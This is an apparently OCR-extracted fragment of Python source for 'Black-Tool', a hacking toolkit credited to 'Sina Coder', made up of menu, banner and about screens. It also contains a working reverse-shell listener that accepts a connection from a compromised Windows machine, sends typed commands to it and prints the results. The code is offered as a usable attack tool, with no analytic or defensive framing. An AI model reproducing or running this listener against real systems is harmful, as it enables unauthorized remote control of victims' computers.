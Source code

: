         s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind((host,int(port)))
        s.listen(2)
        print(f"Start Listener At {ip} Port: {port}")
        c,addr = s.accept()
        print("Client Connect!")
        print("\nEnter Q To Exit!\n")
        while True:    
          command = input(f"{ip}/$ ").encode()
          if command == "q" or command == "Q":
              c.close()
          else:
              c.send(command)
              data = c.recv(123456789).decode()
              print(data)
        c.close()
        while True:
            try_5 = input("Try Listener? [y/n] ")
            if try_5 == "y":
                self.windows_listener()
            elif try_5 == "n":
                break
            else:
                continue
        self.windows_mal()    
    def about(self):
        self.clear()
        sina_art = text2art("Sina Coder","tarty1")
        print(sina_art)
        print(f"\n{Fore.GREEN}This Tool Made by Sina Coder")
        time.sleep(0.5)
        print(f"\nGithub: https://github.com/mrprogrammer2938")
        time.sleep(0.5)
        print(f"\nInstagram: https://instagram.com/sina.coder{Fore.WHITE}")
        time.sleep(0.5)
        time.sleep(2)
        input("Press Enter...")
        self.main_menu()
    def banner(self):
        banner_art = text2art("Black Tool","tarty1")
        print(banner_art)
        print(f"{Fore.RED}Black-Tool 5.5.5    Sina Coder{Fore.WHITE}")
    def clear(self):
        if system() == "Linux" or system() == "Darwin":
            os.system("clear") 
        else:
            os.system("cls")
    def exit_blacktool(self):
        self.clear()
        print(Back.GREEN + Fore.BLACK + "Thanks For Using :)")
        Style.RESET_ALL
        sys.exit()
if __name__ == "__main__":
    
    try:
        BlackTool = Black_Tool()
        BlackTool.main_menu()
    except KeyboardInterrupt:
        print("Ctrl + C")
        print("Exit")
        sys.exit()
